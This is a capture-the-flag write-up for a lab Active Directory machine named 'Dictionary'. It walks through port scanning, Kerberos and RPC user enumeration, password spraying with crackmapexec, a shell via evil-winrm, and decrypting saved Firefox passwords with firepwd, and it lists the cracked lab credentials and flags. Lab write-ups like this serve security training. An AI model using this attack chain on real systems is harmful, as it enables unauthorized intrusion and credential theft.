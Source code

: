 # DICTIONARY / Active Directory

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/4fbaa63b5f7149a5831396f7ed032893.png)

## NMAP SCAN

```text
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2021-03-16 00:28:23Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: Dictionary.csl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: Dictionary.csl0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: DICTIONARY
|   NetBIOS_Domain_Name: DICTIONARY
|   NetBIOS_Computer_Name: DICTIONARY-DC
|   DNS_Domain_Name: Dictionary.csl
|   DNS_Computer_Name: Dictionary-DC.Dictionary.csl
|   Product_Version: 10.0.17763
|_  System_Time: 2021-03-16T00:29:17+00:00
|_ssl-date: 2021-03-16T00:29:57+00:00; -1s from scanner time.
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49680/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49702/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

ADD Dictionary.csl in your /etc/hosts

## SMB ENUMERATION

* DEAD END

## LDAP ENUMERATION

* NOTHING INTERESTED

## KERBEROS ENUMERATION

### USER ENUMERATION

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/bdc4d05eabaf4a79bcc07e621aa85d48.png)

## GETTIN HASH & CRACK IT

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/646cf30c15cd4077a69a1d7e5693da90.png)

## ENUMERATE OTHERS DOMAIN USERS

```text
rpcclient -U "izabel" 172.31.3.4
enumdomusers
```

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/e9679b99e3da4d19a40d215b4d2c85e2.png)

```text
Administrator
Guest
krbtgt
Izabel
CValencia
BACKUP-Izabel
```

* USE EXREX TO MADE AN MONTH/YEAR LIST LIKE IZABEL \(MONTHYEAR\)

```text
https://github.com/asciimoo/exrex
```

## CRACKMAPEXEC BRUTEFORCE

```text
crackmapexec smb 172.31.3.4 -u name.txt -p pass.txt
```

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/dd3e8287efc141a4b187899473a8ec76.png)

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/0983a71388a54129ae91f6e3fe856586.png)

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/cd95cadbe8d5456eb02a9d5122c2cd27%20%281%29.png)

## GETTING A SHELL

```text
evil-winrm -i 172.31.3.4 -u 'BACKUP-Izabel' -p 'October2019'
```

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/efe5184d547647ddbed51b83db3343eb.png)

### WINPEAS

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/40af7cb5409742ada6b9c8099c08a088.png)

```text
C:\Users\BACKUP-Izabel\AppData\Roaming\Mozilla\Firefox\Profiles\65wr35iv.default-release\key4.db
```

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/9e93e4335b8140fd84ba1fc1e30e3005.png)

## RETRIEVING PASSWORDS FIREPWD

* [https://github.com/lclevy/firepwd](https://github.com/lclevy/firepwd)

```text
python3 /opt/firepwd/firepwd.py key4.db
```

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/88a3481d5e3f468ea2d21aecd9ab161e.png)

```text
iHgPVQivZw7wpEd
iAmRoot
LUp2KhdP
NotADuck
x7VtnCWZ
EpicL_yep
kC7pbrQAsTT
```

## CHECKING THIS PASSWORDS

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/afa8b9e67b1a431d97ec500addd25753.png)

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/92ed63bf7ff14d978766b4c760761417.png)

## CREDS

```text
izabel:June2013
BACKUP-Izabel:October2019
Administrator:kC7pbrQAsTT
```

## FLAGS

### USER

```text
44d83b9985749480f7dd57f23e72c851
```

### ROOT

```text
5f10b45e7f64ce852e6e0ac0eda224ff
```


